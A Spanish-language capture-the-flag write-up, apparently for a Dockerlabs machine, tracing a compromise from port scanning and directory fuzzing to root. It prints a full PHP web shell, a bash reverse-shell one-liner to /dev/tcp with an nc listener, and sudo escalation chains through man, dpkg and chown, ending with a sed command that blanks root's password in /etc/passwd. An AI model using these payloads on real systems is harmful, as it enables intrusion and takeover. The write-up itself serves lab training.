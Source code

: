 Fecha: 03/09/2024

Comienzo haciendo el escaneo, encontrando ftp en el puerto 21 y un apache en el 80, no siendo ninguna de las dos versiones vulnerable según seachsploit. 
```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.3 -oN scan
```

![](../Imágenes/Pasted%20image%2020240903185122.png)

Lo primero que haré es fuzzing para buscar páginas con información relevante:
```bash 
ffuf -c -w /usr/share/wordlists/directory-list-2.3-medium.txt -u http://172.17.0.3/FUZZ  -e .php,.html,.txt,.js,.py -o fuzzing  
```

![](../Imágenes/Pasted%20image%2020240903185722.png)
Por lo que parece, lo que hay en el servicio ftp y lo que está en el servidor apache es lo mismo. Probaré por tanto a subir una shell de php como hice en la máquina [Dockerlabs](Dockerlabs.md): 

```php
SHELL:  
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

Subo el fichero en cuestión: 
![](../Imágenes/Pasted%20image%2020240903190414.png)
Ahora ya puedo acceder a esta linea de comandos desde el buscador, así que me abro una reverse shell:
![](../Imágenes/Pasted%20image%2020240903190436.png)

```bash
# En la shell virtual:
bash -c 'bash -i >& /dev/tcp/172.17.0.1/9001 0>&1'
# En mi máquina atacante:
nc -lvnp 9001
```

Lo primero que haré será tratar la tty: 
```bash
# Empezando desde la reverse shell:
script /dev/null -c bash

Control Z 

stty raw -echo; fg

reset xterm

export TERM=xterm
```

![](../Imágenes/Pasted%20image%2020240903192511.png)
![](../Imágenes/Pasted%20image%2020240903192817.png)

Ahora miro los permisos que tengo: 
![](../Imágenes/Pasted%20image%2020240903192933.png)

Encuentro una forma de usar sudo con man para escalar privilegios: https://gtfobins.github.io/gtfobins/man/#sudo

```bash
sudo -u pingu man man 
!/bin/bash
```

Ahora miro qué permisos tengo como pingu:
![](../Imágenes/Pasted%20image%2020240903193115.png)

Uso dpkg: https://gtfobins.github.io/gtfobins/dpkg/#sudo

```bash
sudo -u gladys dpkg -l 
!/bin/bash
```

![](../Imágenes/Pasted%20image%2020240903193300.png)

Y, finalmente, como gladys, puedo usar chown para convertirme en superusuario https://gtfobins.github.io/gtfobins/chown/#sudo:

![](../Imágenes/Pasted%20image%2020240903193354.png)

```bash
# Hago que todo el directorio sea mio
sudo chown gladys:gladys /etc
# Edito la linea en la que especifica la contraseña del root, dejándola vacía
sed -i 's/root:x:/root::/g' /etc/passwd


```

![](../Imágenes/Pasted%20image%2020240903193807.png)

![](../Imágenes/Pasted%20image%2020240903193942.png)